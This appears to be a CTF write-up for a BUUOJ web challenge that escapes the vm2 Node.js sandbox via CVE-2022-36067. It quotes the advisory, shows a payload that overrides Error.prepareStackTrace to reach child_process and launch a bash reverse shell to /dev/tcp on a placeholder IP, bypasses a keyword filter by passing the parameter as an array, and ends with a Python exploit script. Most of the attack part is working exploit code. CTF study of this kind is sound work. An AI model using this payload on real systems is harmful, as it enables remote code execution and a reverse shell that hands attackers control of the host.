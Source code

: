 ![[Pasted image 20230203085920.png|500]]

![[Pasted image 20230203090337.png|700]]

```
/run.php?code=phpinfo();
```

```
ReferenceError: phpinfo is not defined
```

![[Pasted image 20230203090553.png|500]]

```
/run.php?code=new Error().stack
```

![[Pasted image 20230203090731.png|700]]

[GHSA-mrgp-mrhc-5jrq](https://github.com/patriksimek/vm2/security/advisories/GHSA-mrgp-mrhc-5jrq)

> vm2 is a sandbox that can run untrusted code with whitelisted Node's built-in modules. In versions prior to version 3.9.11, a threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox. This vulnerability was patched in the release of version 3.9.11 of vm2. There are no known workarounds.

参考 [Enter "Sandbreak" - Vulnerability In vm2 Sandbox Module Enables Remote Code Execution (CVE-2022-36067)](https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067)

```javascript
globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();
```

通过替换大法让虚假的`prepareStackTrace`得到执行

![[Pasted image 20230203100235.png|300]]

题目存在关键词过滤，通过传递参数数组绕过

# exp

```python
import requests
from urllib.request import quote

url = 'http://xxx.node4.buuoj.cn:81/run.php?code[]={}'

payload = '''globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();'''

requests.get(url.format(quote(payload)))
```

![[Pasted image 20230203101146.png|500]]

#Web #nodejs #js #vm2 #Vulnerabilities #escape #RCE #反弹shell 
